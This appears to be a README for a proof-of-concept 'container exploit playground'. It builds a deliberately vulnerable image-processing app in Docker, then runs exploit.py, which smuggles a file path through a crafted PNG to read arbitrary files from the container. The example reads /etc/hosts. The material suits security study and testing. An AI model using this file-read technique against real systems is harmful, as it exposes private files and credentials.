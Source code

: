 ## Container exploit playground

WIP

### Prerequisites on local machine:
* [Docker Desktop](https://docs.docker.com/get-docker/) (or similar)
* [pngcrush](https://pmt.sourceforge.io/pngcrush/)
* [Python 3](https://www.python.org/)
* [curl](https://github.com/curl/curl)
* _Optional but helpful for troubleshooting:_ [exiv2](https://exiv2.org/) 

### Steps to run (build from the vulnerable-app folder):
* Build the image: `docker build -t poc .`
* Run the vulnerable app: `docker run --rm -p 3000:3000 poc`
* Trigger the exploit, passing in whatever file you want to cat from the poc: `./exploit.py /etc/hosts`

#### Example output:
```shell
$ ./exploit.py /etc/hosts
Encoding /etc/hosts into k8s.png as pngout.png...
Sending pngout.png to localhost:3000...
Finding processed image and downloading as result.png...
Downloading resized-image-1676317559895.png as result.png
Decoding content from /Users/foo/path/to/result.png...

127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
ff00::0	ip6-mcastprefix
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
172.17.0.2	2b6cb0891610
```

